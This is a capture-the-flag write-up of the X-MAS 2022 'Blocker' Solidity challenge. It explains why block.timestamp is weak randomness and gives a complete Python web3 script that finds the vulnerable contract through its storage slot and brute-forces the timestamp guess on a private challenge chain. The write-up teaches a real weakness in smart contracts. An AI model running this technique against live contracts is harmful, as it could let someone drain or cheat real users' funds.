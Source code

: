 ## Summary

Recently, I participated in the X-MAS 2022 CTF in my free time. There was an interesting blockchain related challenge. In this challenge, we were provided the source code of a vulnerable Solidity smart contract. The goal is to exploit the vulnerability and get the flag

The image below shows the source code of the contract

![1.png](images/1.png "1.png")

It is a straightforward contract which has two functions:

1. `_getPreviousTimestamp`: This function will return the timestamp of the block using block.timestamp
2. solve: This function will accept an integer as an input and compare it with block.timestamp

The goal is to be able to guess the block.timestamp accurately

Before we jump into the solution, it is important to mention that the value of block.timestamp is not a constant and it can be manipulated by the miner. This is why it is not suggested to use block.timestamp to generate random numbers in real world smart contracts since its value can be manipulated and guessed.

The value of block.timestamp in the Ethereum mainnet (prior to Merge) was usually within a range. It had to be greater than or equal to value of block.timestamp in parent block and it should be within a range. It can be represented mathematically as shown below.
```
block.timestamp <= now + X and is block.timestamp >= parent.timestamp
```
Here X is the range within which the block.timestamp would have to be

Refer for more details here: https://github.com/ethereum/wiki/blob/c02254611f218f43cbb07517ca8e5d00fd6d6d75/Block-Protocol-2.0.md

## Challenge

When we connect to challenge server, it deploys the vulnerable contract on a private instance of a blockchain and provides us the 4 options as shown in the image below.

![2.png](images/2.png "2.png")

Below is a brief description of these 4 options.

1. **uuid**: a unique identifier used to indicate our challenge instance
2. **rpc endpoint**: this is the private RPC URL used to connect to the private blockchain
3. **private key**: This is the private key of the account provided to us to interact with the blockchain. It is loaded with some balance to use for the gas fee
4. **setup contract**: this is the address of the deployer contract

There are two main steps to solve this challenge
- Leaking the vulnerable contract address
- Bruteforcing the block.timestamp

Now, we will discuss each step in detail.

## Leaking the vulnerable contract address

It is important to note that the setup contract address provided to us does not correspond to the vulnerable contract address. So, we still have to find the address of vulnerable contract.

My way of leaking vulnerable contract address was by reading the storage slot of the setup contract address. Since the setup contract deployed the vulnerable contract, the address of vulnerable contract would be stored in a storage slot of setup contract

```
vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])
```
If you want to understand why address is stored in the storage slot, you can fetch the bytecode of setup contract, decompile it and understand it.

## Bruteforcing the block.timestamp

The next step was to interact with the vulnerable contract, do transactions and guess the block.timestamp

The first thing I noticed was that each time we do a transaction, the value of block number incremented by 1 and the value of block.timestamp incremented by a random value.

Even though block.timestamp incremented by a random value, it was still within a range. Per my analysis, it was within a range of 100 seconds

So, to solve the challenge, I ran a loop for a maximum of 100 iterations. In each iteration, I would get the block.timestamp, increment it by 2 and send it in transaction. Then I would compare the block.timestamp after transaction with the previous value (incremented by 2). If the difference is 0, then it means we guessed it

Also, in the vulnerable contract source code, we can see that the value of state variable solved would be set to true if the challenge is solved. By checking for this value, we can confirm when the challenge is solved

The image below shows my script solving it:

![3.png](images/3.png "3.png")

Once we have solved it, we just need to connect to the challenge server, submit our uuid and setup contract address to get the flag.

![4.png](images/4.png "4.png")

Flag: X-MAS{beginooor}

## Solution code
```python
import web3
import time

print("Solution to Blocker challenge in X-MAS CTF 2022")
print("Sudeep Singh, Twitter @ SinghSoodeep")

rpc_url = "http://challs.htsp.ro:9001/ad8e2899-f227-4c48-83a1-17bf5d82809b"
w3 = web3.Web3(web3.Web3.HTTPProvider(rpc_url))
w3.isConnected()

setup_contract_address = "0x593EDc28F0Be694354BCe80c4b2DD991eE58E6Ca"
private_key = "0x4c93f3ae3b52d4ce27af51e8658b97e24a1f2eadb8a85cceaee0373cacca75dd"
print("Fetching account using the private key")

account = w3.eth.account.privateKeyToAccount(private_key)

print("Account address is: {}".format(account.address))

balance = w3.eth.getBalance(account.address)

abi = [{"inputs":[],"name":"current_timestamp","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"uint256","name":"_guess","type":"uint256"}],"name":"solve","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"solved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"}]

print("Leaking the vulnerable contract address")

vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])

print("vulnerable contract address at: {}".format(vuln_contract_address))

gas_price = w3.eth.gasPrice
gas_limit = 1000000

web3.eth.defaultAccount = account.address

contract = w3.eth.contract(abi=abi, address=vuln_contract_address)

print("time analysis!!")
print("Exploit the vulnerability by bruteforcing the block.timestamp")

for i in range(100):
    before_block = w3.eth.get_block_number()
    tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp'] + 2
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("BEFORE: block_number: {}, tstamp: {}".format(before_block, tstamp))
    print("BEFORE: solved: {}".format(_solved))
    tx_hash =  contract.functions.solve(tstamp).transact({"gasPrice": gas_price, "gas": gas_limit})
    after_block = w3.eth.get_block_number()
    after_tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp']
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("AFTER: block_number: {}, tstamp: {}".format(after_block, after_tstamp))
    print("AFTER: solved: {}".format(_solved))
    print("time diff: {}".format(after_tstamp - tstamp))
    print("*********************************")
    time.sleep(0.5)
    if _solved == True:
        print("solved!")
        break
```
